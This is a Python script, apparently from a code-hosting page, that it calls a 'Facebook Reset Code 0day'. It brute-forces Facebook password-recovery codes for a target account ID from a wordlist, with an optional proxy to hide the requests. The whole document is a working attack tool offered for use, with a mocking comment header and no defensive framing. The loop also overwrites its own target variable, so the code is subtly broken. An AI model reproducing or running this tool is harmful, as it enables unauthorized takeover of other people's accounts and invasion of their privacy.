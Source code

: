 # Hadiaq2
#Facebook Reset Code 0day Python Version
#If you want to edit this script you are free i don't give a fuck cause it tooks 2 minutes to write xD \!/
#As a temporarily solution, use requesocks Module
#How to install?
#with pip : pip install requesocks
#with easy_install : easy_install requesocks

import urllib2 ,sys ,re
import os
import ssl
import time

def cls():
    linux = 'clear'
    windows = 'cls'
    os.system([linux,windows][os.name == 'nt'])

cls()

os.system(['','color D'][os.name == 'nt'])

print '''
  ~ Facebook Reset Code 0day Python Version
     usage : Python get.py TARGET[FB_ID] [WORDLIST]
                                                                           '''
if len(sys.argv) != 3:
    print "\n\n[#] usage : Python get.py TARGET[FB_ID] [WORDLIST] "
    sys.exit()

target = sys.argv[1]
wordlist = sys.argv[2]


while True:
    print """
    ============ Menu ==============
    1- Reset Code Facebook Without Proxy 
    2- Using Proxy :v :v 
    
    """

    choice=raw_input("Enter your choice : ")

    if choice=="1":
        try:
            word = open(wordlist, 'r').readlines()
            print "[+] Facebook Codes Loaded \!/\n[+] Codes:",len(word)
        except("IOError"):
            print "[-] Can't Load List !"
            sys.exit(1);

        for w in word:
            w = w.rstrip()
            try:
                target = 'https://m.facebook.com/recover/password?u='+target+'&n='+w
                get = urllib2.urlopen(target).read()
    
            except IOError:
                print " Error on Sending Page to server "
    
            search = re.search('password_new', get)
            if search:
                print "[+] The Code "+w+" is Correct ^___^ "
            else:
                print "[+] The Code "+w+" is Incorrect :/ "
    else:

        print """
        Welcome to Reset Password FB With Proxy 
        usage : [ip:port]
        """
        ip_proxy=raw_input("Enter your proxy baby : ")
        print "[##] Proxy Used : "+ip_proxy
        proxy = urllib2.ProxyHandler({'http': ip_proxy})
        opener = urllib2.build_opener(proxy)
        urllib2.install_opener(opener)
        
        #ip = urllib2.urlopen('http://checkip.dyndns.org').read()
        #theIP = re.findall(r"\d{1,3}\.\d{1,3}\.\d{1,3}.\d{1,3}", ip)
        #print theIP
        #datum = response.read()
        #response.close()
        #print datum
        try:
            word = open(wordlist, 'r').readlines()
            print "[+] Facebook Codes Loaded \!/\n[+] Codes:",len(word)
        except("IOError"):
            print "[-] Can't Load List !"
            sys.exit(1);

        for w in word:
            w = w.rstrip()
            try:
                target = 'https://m.facebook.com/recover/password?u='+target+'&n='+w
                get = urllib2.urlopen(target).read()
                
            except IOError:
                print " Error on Sending Page to server "
        
            search = re.search('password_new', get)
            if search:
                print "[+] The Code "+w+" is Correct ^___^ "
            else:
                print "[+] The Code "+w+" is Incorrect :/ "
